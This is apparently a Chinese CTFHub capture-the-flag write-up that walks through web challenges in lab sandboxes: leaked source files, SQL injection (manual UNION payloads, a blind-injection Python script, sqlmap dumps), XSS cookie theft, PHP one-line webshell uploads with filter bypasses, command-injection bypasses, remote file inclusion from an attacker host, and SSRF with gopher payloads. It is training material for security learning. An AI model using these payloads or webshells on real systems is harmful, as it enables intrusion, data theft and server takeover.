# CTFHUB
- [Web](#Web)
    - [Web前置技能](#Web前置技能)
        - [HTTP协议](#HTTP协议)
            - [请求方式](#请求方式)
            - [302跳转](#302跳转)
            - [Cookie](#Cookie)
            - [基础认证](#基础认证)
            - [响应包源代码](#响应包源代码)
        - [信息泄露](#信息泄露)
            - [网站源码扫描工具dirsearch](#)
            - [目录遍历](#目录遍历)
            - [PHPINFO](#PHPINFO)
            - [备份文件下载](#备份文件下载)
                - [网站源码](#网站源码)
                - [bak文件](#bak文件)
                - [vim缓存](#vim缓存)
                - [.DS_Store](#.DS_Store)
            - [Git泄露](#Git泄露)
                - [Log](#Log)
                - [Stash](#Stash)
                - [Index](Index)
            - [Git泄露](#Git泄露)
            - [SVN泄露](#SVN泄露)
            - [HG泄露](#HG泄露)
        - [密码口令](#密码口令)
            - [弱口令](#弱口令)
            - [默认口令](#默认口令)
        - [SQL注入](#SQL注入)
            - [整型注入](#整型注入)
            - [字符型注入](#字符型注入)
            - [报错注入](#报错注入)
            - [布尔盲注](#布尔盲注)
            - [时间盲注](#时间盲注)
            - [Mysql结构](#Mysql结构)
                - [Cookie注入](#Cookie注入)
                - [UA注入](#UA注入)
                - [Refer注入](#Refer注入)
                - [过滤空格](#过滤空格)
        - [XSS](#反射型)
            - [文件上传](#文件上传)
                - [无验证](#无验证)
                    - [前端验证](#前端验证)
                        - [.htaccess](#.htaccess)
                        - [MIME绕过](#MIME绕过)
                            - [00截断](#00截断)
                            - [双写后缀](#双写后缀)
                        - [文件头检测](#文件头检测)
        - [RCE](#RCE)
            - [eval执行](#eval执行)
            - [文件包含](#文件包含)
                - [php://input](#php://input)
                - [读取源代码](#读取源代码)
                - [远程包含](#远程包含)
            - [命令注入](#命令注入)
                - [过滤cat](#过滤cat)
                - [过滤空格](#过滤空格)
                - [过滤目录分隔符](#过滤目录分隔符)
                - [过滤运算符](#过滤运算符)
                - [综合过滤练习](#综合过滤练习)
        - [SSRF](#SSRF)
            - [内网访问](#内网访问)
                - [伪协议读取文件](#伪协议读取文件)
                - [端口扫描](#端口扫描)
            - [POST请求](#POST请求)
                - [上传文件](#上传文件)
                - [FastCGI协议](#FastCGI协议)
                - [Redis协议](#Redis协议)
            - [URL Bypass](#URL_Bypass)
                - [数字IP Bypass](#数字IP_Bypass)
                - [302跳转 Bypass](#302跳转_Bypass)
                - [DNS重绑定 Bypass](#DNS重绑定_Bypass)


## Web
## Web前置技能
## HTTP协议
### 请求方式

- 方法一 : burpsuite抓包修改请求方式



- 方法二 : curl -v -X CTFHUB http://xxxx.com/index.php



### 302跳转

查看源代码可见要求访问index.php

- 方法一:burpsuite抓包

- 方法二:``curl -v -X GET http://challenge-142aade57047cc84.sandbox.ctfhub.com:10080/index.php ``


### Cookie

burpsuite抓包将Cookie里的admin=0修改为1




### 基础认证

- [基本认证原理](https://zh.wikipedia.org/wiki/HTTP%E5%9F%BA%E6%9C%AC%E8%AE%A4%E8%AF%81)

burpsuite抓包爆破basic Authorization







### 响应包源代码




**Resources**

https://writeup.ctfhub.com/categories/Skill/Web/Web%E5%89%8D%E7%BD%AE%E6%8A%80%E8%83%BD/


## 信息泄露
### 网站源码扫描工具dirsearch
[CTF网站源码之dirsearch扫描工具](https://github.com/maurosoria/dirsearch)

```bash
# Kali-Linux
proxychains4 git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u http://challenge-edd68a97866abcb1.sandbox.ctfhub.com:10080
```
### 目录遍历

``多次寻找点击可找到flag``

### PHPINFO

``ctrl+f搜索flag``

### 网站源码

**常见的网站源码备份文件后缀**
- tar
- tar.gz
- zip
- rar

**常见的网站源码备份文件名**
- web
- website
- backup
- back
- www
- wwwroot
- temp




### bak文件

- bak是备份文件，为文件格式扩展名。
- index.php.bak 扫描方法同上

### vim缓存

**概述**
- vim 交换文件名

```
在使用vim时会创建临时缓存文件，关闭vim时缓存文件则会被删除，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容

以 index.php 为例：第一次产生的交换文件名为 .index.php.swp

再次意外退出后，将会产生名为 .index.php.swo 的交换文件

第三次产生的交换文件则为 .index.php.swn
```
**解题思路**

```
wget http://challenge-5e11a4163c058a15.sandbox.ctfhub.com:10080/.index.php.swp
vim index.php
```


### .DS_Store

**概述**
.DS_Store 是 Mac OS 保存文件夹的自定义属性的隐藏文件。通过.DS_Store可以知道这个目录里面所有文件的清单。

**解题思路**

[Python_.DS_Store解析器工具](https://github.com/gehaxelt/Python-dsstore)




### Git泄露

### log

**概述**
当前大量开发人员使用git进行版本控制，对站点自动部署。如果配置不当,可能会将.git文件夹直接部署到线上环境。这就引起了git泄露漏洞。


**常用命令**

```bash
git log 显示从最近到最远的提交日志。
git diff 简单的来说就是查看不同，具体用法如下：
1. git diff：是查看working tree与index的差别的。
2. git diff --cached：是查看index与repository的差别的。
3. git diff HEAD：是查看working tree和repository的差别的。其中：HEAD代表的是最近的一次commit的信息。
git reset 可用于回退版本库
```

**解题思路**

```bash
# 下载githack工具
proxychains4 git clone https://github.com/BugScanTeam/GitHack
python GitHack.py http://challenge-b204568bb7d6e137.sandbox.ctfhub.com:10080/git/
cd /dict/文件夹
```

```bash
# 说明当前所处版本外remove flag，但flag在之前上一个add flag版本
git log
```


方法一：
```bash
git diff 3597
git diff HEAD^
```

方法二：
```bash
git reset --hard 3597
git reset --hard HEAD^
```



### Stash

**概述**

`git stash是git一个很有用的命令，它的作用是把当前未提交的修改暂存起来，让仓库
还原到最后一次提交的状态。常用于更新、同步代码或者保存多个修改版本等情况下。`

**Stash命令**

```bash
git stash	# git stash命令会将仓库中的修改保存，建立一条stash信息，默认的说明信息是最后一次提交的节点号和提交说明。
git stash save  #‘说明信息’与1的效果一样，说明信息是指定的内容，更加利于了解stash的内容。
git stash list  #列出当前仓库下所有的stash条目，每一条stash用stash@{n}标识。
git stash pop [stash] # 将stash的内容弹出，默认弹出最上面的那条，即stash@{0}。此外还可以在pop后加stash@{n}来指定要弹出的stash条目。
git stash drop [stash] #丢弃stash条目，默认丢弃最上面的那条，即stash@{0}，此外还可以在drop后加stash@{n}来指定要丢弃的stash条目。
git stash clear #清除所有的stash条目。
git show stash@{n}	#当有多条记录并且过了一段时间忘记stash内容时通过该命令可以查看stash的具体内容
```

**解题思路**

- githack将git源码下到本地
```bash
git stash list # 发现有stash文件
git stash pop # 将stash内容弹出
ls
cat 21941798421820.txt
```






### Index

直接githack到本地可发现flag


### SVN泄露

**概述**
SVN是subversion的缩写，是一个开放源代码的版本控制系统，通过采用分支管理系统的高效管理，简而言之就是用于多个人共同开发同一个项目，实现共享资源，实现最终集中式的管理。

在服务器上布署代码时。如果是使用 svn checkout 功能来更新代码，而没有配置好目录访问权限，则会存在此漏洞。黑客利用此漏洞，可以下载整套网站的源代码。
在使用SVN管理本地代码过程中，会自动生成一个隐藏文件夹，其中包含重要的源代码信息。但一些网站管理员在发布代码时，不愿意使用‘导出’功能，而是直接复制代码文件夹到WEB服务器上，这就使隐藏文件夹被暴露于外网环境，这使得渗透工程师可以借助其中包含版本信息追踪的网站文件，逐步摸清站点结构。


**解题思路**

```
git clone https://github.com/kost/dvcs-ripper
cd dvcs-ripper
./rip-svn.pl -u http://challenge-244d26c84ccbf3fa.sandbox.ctfhub.com:10080/.svn/
cd .svn/
cd pristine
cd 9c
cat 9c5b6603235ce517b8a8358aeb444f3184155ae4.svn-base
```

### HG泄露

```bash
./rip-hg.pl -v -u http://challenge-edd68a97866abcb1.sandbox.ctfhub.com:10080/.hg/
cd .hg
```

访问``http://challenge-edd68a97866abcb1.sandbox.ctfhub.com:10080/flag_1599919925.txt``

### 密码口令
### 弱口令

[CTFHUB writeup](https://writeup.ctfhub.com/Skill/Web/%E5%AF%86%E7%A0%81%E5%8F%A3%E4%BB%A4/f6QQk4oixo5X2ZdsUgC7Wo.html)

### 默认口令


**解题思路**

搜索该厂商的默认口令

查询到默认用户名为eyougw，密码为admin@(eyou)，成功登陆后，Capture The Flag!

### SQL注入

### 整型注入

**常用注入语句**

1. 检查是否存在注入点
```
and 1=1 #返回正确
and 1=2 #返回错误
```

2. 猜解字段有多少个
```
order by x
```

3. 爆数据库名称
```
?id=1 and 1=2 union select 1,database()
```

4. 爆表名
```
?id=1 and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
```

5. 爆列名
```
?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```

6. 获取字段内容
```
?id=1 and 1=2 union select 1,group_concat(flag) from sqli.flag
```

**解题思路**

- 解法一: [Sqlmap工具](https://github.com/sqlmapproject/sqlmap)

```bash
# Kali Linux SQLMAP
# 爆出所有库的表名
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 --tables
```


```bash
# 爆出flag表下的列名
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
```



```bash
# 查询flag表下flag名的内容数据
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
```




- 解法二: 手工注入

```bash
-1 union select 1,database()  # 查询数据库
-1 union select 1,version()   # 查询版本
-1 union select 1,group_concat(schema_name) from informations_schema.schemata # 查询所有数据库名称
-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1) # 查询第一个字段，之后limit依次增加即可，或者以下
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
-1 union select 1,group_concat(flag) from sqli.flag # 查询flag
```

### 字符型注入

**常用注入语句**

字符型注入要考虑到``引号闭合``和``注释``。

1. 判断注入
```
# 以下语句均在URL输入，若直接POST输入需要把注释改为#
?id=1' and 1=1 --+ 返回正确
?id=1' and 1=2 --+ 返回错误
```

2. 猜字段
```
?id=1' order by 2 --+ 返回正确
?id=1' order by 3 --+ 返回错误
```
得出字段数为2

下面为测试空格字符代替情况 （可跳过）
```
?id=1' order by 2 -- - 返回正确
?id=1' order by 2 -- / 返回正确
```
3. 爆数据库名

```
?id=1' and 1=2 union select 1,database()--+
```

4. 爆表名
```
?id=1' and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'--+
```

5. 爆列名
```
?id=1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'--+
```

6. 爆字段内容(flag)
```
?id=1' and 1=2 union select 1,group_concat(flag) from sqli.flag--+
```

**解题思路**

- 解法一:sqlmap工具跑

```bash
# 爆出所有数据库的表名
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 --tables
```

```bash
# 爆出flag表的字段名
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 -T flag --columns
```

```bash
# 爆出flag表的flag字段内容
sqlmap --url=http://challenge-95da955a4c621777.sandbox.ctfhub.com:10080/?id=1%27 -T flag -C flag --dump
```


- 解法二:手工注入

跟整数型注入一样，但需要闭合单引号。

### 报错注入

**知识点**

报错注入的本质上是让格式语法发生错误回显。

- floor()函数作用: 返回小于等于该值的最大整数,也可以理解为向下取整，只保留整数部分。

- rand()函数作用: 可以用来生成0或1，但是rand(0)和rand()还是有本质区别的，rand(0)相当于给rand()函数传递了一个参数，然后rand()函数会根据0这个参数进行随机数成成。rand()生成的数字是完全随机的，而rand(0)是有规律的生成。

- group by : 进行分组查询的时候，数据库会生成一张虚拟表，在虚拟表中，group by后面的字段作为主键，所以这张表中主键是name，这样我们就基本弄清报错的原因了，其原因主要是因为虚拟表的主键重复。


**解题思路**

- 解法一: SQLMAP跑

```bash
sqlmap --url=http://challenge-fb236deff08bd991.sandbox.ctfhub.com:10080/?id=1 --tables
```
- 解法二: 手工注入

``这个先空着等遇到报错题目再研究以下。``

### 布尔盲注

**解题思路**

- 解法一 ：SQLMAP跑

- 解法二 : python脚本跑(这里引用别人的py)

```py
import requests
import time

urlOPEN = 'http://challenge-你自己环境的连接.sandbox.ctfhub.com:10080/?id=' # 这里需要输入爆破的目标地址
starOperatorTime = []
mark = 'query_success' # 观察目标网站两种结果
def database_name():
    name = ''
    for j in range(1,9):
        for i in 'sqcwertyuioplkjhgfdazxvbnm':
            url = urlOPEN+'if(substr(database(),%d,1)="%s",1,(select table_name from information_schema.tables))' %(j,i)
            # print(url+'%23')
            r = requests.get(url)
            if mark in r.text:
                name = name+i

                print(name)

                break
    print('database_name:',name)


database_name()
def table_name():
    list = []
    for k in range(0,4):
        name=''
        for j in range(1,9):
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url = urlOPEN+'if(substr((select table_name from information_schema.tables where table_schema=database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                # print(url+'%23')
                r = requests.get(url)
                if mark in r.text:
                    name = name+i
                    break
        list.append(name)
    print('table_name:',list)


#start = time.time()
table_name()
#stop = time.time()
#starOperatorTime.append(stop-start)
#print("所用的平均时间： " + str(sum(starOperatorTime)/100))


def column_name():
    list = []
    for k in range(0,3): #判断表里最多有4个字段
        name=''
        for j in range(1,9): #判断一个 字段名最多有9个字符组成
            for i in 'sqcwertyuioplkjhgfdazxvbnm':
                url=urlOPEN+'if(substr((select column_name from information_schema.columns where table_name="flag"and table_schema= database() limit %d,1),%d,1)="%s",1,(select table_name from information_schema.tables))' %(k,j,i)
                r=requests.get(url)
                if mark in r.text:
                    name=name+i
                    break
        list.append(name)
    print ('column_name:',list)


column_name()


def get_data():
        name=''
        for j in range(1,50): #判断一个值最多有51个字符组成
            for i in range(48,126):
                url=urlOPEN+'if(ascii(substr((select flag from flag),%d,1))=%d,1,(select table_name from information_schema.tables))' %(j,i)
                r=requests.get(url)
                if mark in r.text:
                    name=name+chr(i)
                    print(name)
                    break
        print ('value:',name)

get_data()
```




相对来说，python爆破方式更快一点。

### 时间盲注

**常用判断语句**
`下列语句URL上提交，若post提交需要将--+替换成#`
```
' and if(1=0,1, sleep(10)) --+

" and if(1=0,1, sleep(10)) --+

) and if(1=0,1, sleep(10)) --+

') and if(1=0,1, sleep(10)) --+

") and if(1=0,1, sleep(10)) --+
```

**解题思路**

SQLmap跑

### Mysql结构

**MYSQL的隐式类型转换**
两个参数比较
- 至少有一个为NULL，则结果为NULL，不做类型转换
- 都是字符串，按照字符串比较，不做类型转换
- 都是整数，按照整数比较，不做类型转换
- 若不与数字比较，则将十六进制视为二进制字符串
- 一个为decimal，另一个为decimal或整数，则会将整数转为decimal比较，若有一个浮点数，则decimal转为浮点数比较
- 其它情况下，两个参数都会转为浮点数比较。

具体参考如下：
https://www.cnblogs.com/0yst3r-2046/p/12486654.html

### Cookie注入

**前提条件**

1. GET与POST请求的数据被过滤，但Cookie请求的数据并未过滤
2. 程序对请求数据的获取方式是直接request('xxx')的方式，并未指明使用request对象的具体方式进行获取，简单地说reuqests方法获取参数可以是在URL后面参数，也可以是cookie里面参数，没有做筛选。



**解题思路**

```
sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" --dbs --level 2

sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli --tables

sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli -T dwwcxedsdj --columns


sqlmap --url=http://challenge-21cd4d01bf5d802d.sandbox.ctfhub.com:10080 --cookie "id=1" -D sqli -T dwwcxedsdj -C lmpfvsecrk --dump
```
### UA注入

**知识点**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等。

**解题思路**

Burpsuite抓包 将内容保存为1.txt

```
GET / HTTP/1.1
Host: challenge-8d290c248668e8d5.sandbox.ctfhub.com:10080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77
Connection: close
```

```
sqlmap  -r 1.txt --level 3 --dbs
sqlmap  -r 1.txt --level 3 -D sqli --tables
sqlmap  -r 1.txt --level 3 -D sqli -T xxrbzggfbx -columns
sqlmap  -r 1.txt --level 3 -D sqli -T xxrbzggfbx -C dxtajwxled --dump
```
### Refer注入

,保存为1.txt

```
sqlmap -r 1.txt -p referer --level 3 --dbs

sqlmap -r 1.txt -p referer --level 3 -D sqli --tables

sqlmap -r 1.txt -p referer --level 3 -D sqli -T oezfbbnxsd --columns

sqlmap -r 1.txt -p referer --level 3 -D sqli -T oezfbbnxsd -C glltrzyqqs --dump
```

## 过滤空格

用注释符绕过

```
0/**/union/**/select/**/1,2
0/**/union/**/select/**/1,database()/**/
0/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
0/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='imvcxeoroz'
0/**/union/**/select/**/1,group_concat(qpncjllwce)/**/from/**/imvcxeoroz
```

### XSS
### 反射型

**漏洞概述**

XSS，全称Cross Site Scripting，即跨站脚本攻击，某种意义上也是一种注入攻击，是指攻击者在页面中注入恶意的脚本代码，当受害者访问该页面时，恶意代码会在其浏览器上执行

**解题思路**
- 第一个表单，测试``<script>alert(1);</script>`` 弹框
- 第二个表单是发送给后台的bot使其遭受攻击，这里模拟后台管理员点击恶意xss链接盗取cookie

在XSS平台创建一个项目，配置代码如下:



随意提交一个xss平台自带的恶意链接代码








### 文件上传

- 浏览器插件: ``Wappalyzer``:能够检测当前页面的基础环境，如中间件、前后端语言等。

php常用一句话木马:``<?php eval(@$_POST['a']); ?>``
### 无验证

**判断语言环境方式**
1. 看文件后缀
2. 插件检测(Wappalyzer)
3. 响应包判断(X-Powered-By: PHP/7.3.14)

**解题思路**

本地制作shell.php，内容为``<?php eval(@$_POST['a']); ?>``

蚁剑连接



### 前端验证

**源代码**
```js
function checkfilesuffix()
{
    var file=document.getElementsByName('file')[0]['value'];
    if(file==""||file==null)
    {
        alert("请添加上传文件");
        return false;
    }
    else
    {
        var whitelist=new Array(".jpg",".png",".gif");
        var file_suffix=file.substring(file.lastIndexOf("."));
        if(whitelist.indexOf(file_suffix) == -1)
        {
            alert("该文件不允许上传");
            return false;
        }
    }
}
```

可见是用前端验证上传的。

**解题思路**

- 解法一: Chrome禁用浏览器javascript
- 解法二: burpsuite抓包上传



蚁剑连接即可。

### .htaccess

**概述**

.htaccess文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

**解题思路**

.htaccess:(将kite文件当成php文件解析)
```
<FilesMatch "kite">
 SetHandler application/x-httpd-php
</FilesMatch>
```

kite:
```php
<?php eval(@$_POST['kite']); ?>
```

先上传.htaccess文件再上传kite文件，最后蚁剑一句话连接。

### MIME绕过

MIMIE-Type相关知识点 -> [点击链接](https://www.w3school.com.cn/media/media_mimeref.asp)

**解题思路**

上传shell.php,burpsuite抓包



蚁剑一句话连接。

## 00截断
**概述**

0x00是字符串的结束标识符，攻击者可以利用手动添加字符串标识符的方式来将后面的内容进行截断，而后面的内容又可以帮助我们绕过检测。

[00截断原理教程](http://www.admintony.com/%E5%85%B3%E4%BA%8E%E4%B8%8A%E4%BC%A0%E4%B8%AD%E7%9A%8400%E6%88%AA%E6%96%AD%E5%88%86%E6%9E%90.html)

**前提条件**

PHP<5.3.29，且GPC关闭

**解题思路**



### 双写后缀

**概述**
用于只将文件后缀名，如"php"字符串过滤的情况
上传时将Burpsuite截获的数据包文件名``kite.php``改为``kite.pphphp``，那么过滤了第一个"php"字符串"后，开头的'p'和结尾的'hp'就组合又形成了``php``。

**解题思路**




### 文件头检测


**制作图片马**

copy 1.png/b+shell.php tupianma.php

抓包修改contype为image/png

蚁剑连接

### RCE
### eval执行

**题目源码**
```php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
```

**解题思路**

- 解法一：
```bash
# 分号不能省略
?cmd=system('ls /');
?cmd=system('cat /flag_11512');
```

- 解法二：
蚁剑直接连接，密码为cmd
### 文件包含

**题目源码**

```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```

``strpos() 函数查找字符串在另一字符串中第一次出现的位置。``

- 查找flag命令:
``find / -name flag*``
蚁剑连接，密码为ctfhub
```
http://challenge-c271091738d8367b.sandbox.ctfhub.com:10080/?file=shell.txt
```

### php://input

**概述**
php://input 是个可以访问请求的原始数据的只读流。其实说白了它就是用来获取post内容的，但是其实只要你把内容写到请求包中，post和get都能获取。

**前提条件**
- allow_url_include= On

**题目源码**
```php
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```

**解题思路**
看到一篇挺不错的文章[一道实例讲解php://iput](https://blog.csdn.net/helen1994/article/details/112622291)




### 读取源代码

**题目源码**
```php
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
```

**解题思路**

尝试用php://input任意命令执行，但无果，应该是allow_url_include关闭了。



读取源码的话用php://filter
``?file=php://filter/resource=/flag``

### 远程文件包含

**题目源码**
```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```

**解题思路**

- 解法一：跟文件包含方法一样
- 解法二：``?file=http://<your:ip>/shell.php``



### 命令注入

**题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}
?>
```

**解题思路**

Linux管道符
```
;	执行完前面语句再执行后面的。如ping 127.0.0.1; ls
|	显示后面语句的执行结果。如ping 127.0.0.1 | ls
||	前面语句出错时执行后面语句。如ping 127.0.0.1 || ls
&	前面语句为假则执行后面语句。如ping 127.0.0.1 & ls
&&	前面语句为假则报错，为真则执行后面语句。如ping 127.0.0.1 && ls
```

``127.0.0.1; cat 16497209291396.php``



## 过滤cat

**题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**
寻找能代替cat的命令

```bash
127.0.0.1;tac flag_573386320311.php #从最后一行倒序显示内容
127.0.0.1;more flag_573386320311.php #根据窗口大小，一页一页的现实文件内容
127.0.0.1;less flag_573386320311.php
127.0.0.1;head flag_573386320311.php # 只显示头几行
127.0.0.1;tail flag_573386320311.php # 只显示最后几行
127.0.0.1;nl flag_573386320311.php # 显示时输出行号
```

## 过滤空格

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**
寻找能代替空格的命令

[命令注入绕过空格](https://blog.csdn.net/weixin_39219503/article/details/103948357)

**常见方法**
``< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS``

```
127.0.0.1;ls
127.0.0.1;cat${IFS}flag_168182777520706.php
```

### 过滤目录分隔符

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**

目录分隔符被过滤了，我们需要读取文件夹要用到/

``;cd flag_is_here&&cat flag_128182724515598.php``


### 过滤运算符

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||\&)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**

``127.0.0.1;cat flag_345202625567.php``

### 综合过滤练习

**题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**

过滤了| & ; 空格 / cat flag ctfhub
```
空格用${IFS}代替

cat用more代替

命令分隔符用%0a代替

$*在shell命令执行下为空，可绕过flag
```

```bash
# 注意，%0a在get有效，在post需要抓包
127.0.0.1%0als
127.0.0.1%0acd${IFS}fl$*ag_is_here%0als
127.0.0.1%0acd${IFS}fl$*ag_is_here%0amore${IFS}fl$*ag_228862086112710.php
```

## SSRF

**概述**
```
通常情况下SSRF攻击的目标是外网无法访问的内网系统，也正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔绝的内部系统。也就是说可以利用一个网络请求的服务，当作跳板进行攻击。
```
### 内网访问

**题目描述**
```
尝试访问位于127.0.0.1的flag.php吧
```

**解题思路**

可见url为?url=,尝试构造如下payload：``?url=http://127.0.0.1/flag.php``

### 伪协议读取文件

**题目描述**
```
尝试去读取一下Web目录下的flag.php吧
```

**解题思路**
[SSRF中URL的伪协议](https://www.cnblogs.com/-mo-/p/11673190.html)

题目要求用URL的伪协议去读取文件,常见的SSRF的URL伪协议有以下六种
```
file:///
dict://
sftp://
ldap://
tftp://
gopher://
```

构造payload为：?url=file:///var/www/html/flag.php

### 端口扫描

**题目描述**
```
来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦,
```

**解题思路**

`dict协议`可用来探测内网的主机存活与端口开放情况





### POST请求

**gopher协议**

Gopher协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议，不过现在gopher协议用得已经越来越少了.Gopher协议可以说是SSRF中的万金油。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

**gopher协议格式**

gopher://127.0.0.1:80/_ + TCP/IP数据

gopher://127.0.0.1/_test 默认是TCP 70端口 ( _ 是数据连接格式，可用其它字符替代，若为2test,则输出结果也为test)




**gopher协议的实现**

gopher会将后面的数据部分发送给相应的端口，这些数据可以是字符串，也可以是其他的数据请求包，比如GET，POST请求，redis，mysql未授权访问等，同时数据部分必须要进行``url编码``，这样gopher协议才能正确解析。

**题目描述**
```
这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年
```

**解题思路**

首先尝试file协议读取文件源码

index.php
```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch);
```

flag.php
```php
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>
```


http://ctf.ssleye.com/url.html  该网站需要编码三次

gopher协议后面的POST包如下：(BerylEnigma只需要URL编码两次)

注意content-length的长度，为key的长度
```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

key=5d4ac8b6cdd2a0b860b3fa3d86db2c2a
```

第一次编码：



第二次编码:(%0A需要替换成%0D%0A)








### 上传文件

**题目描述**

```
这次需要上传一个文件到flag.php了.祝你好运
```

**解题思路**

file协议读取源码

flag.php

```php
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
    echo getenv("CTFHUB");
    exit;
}
?>
```

index.php
```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])) {
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
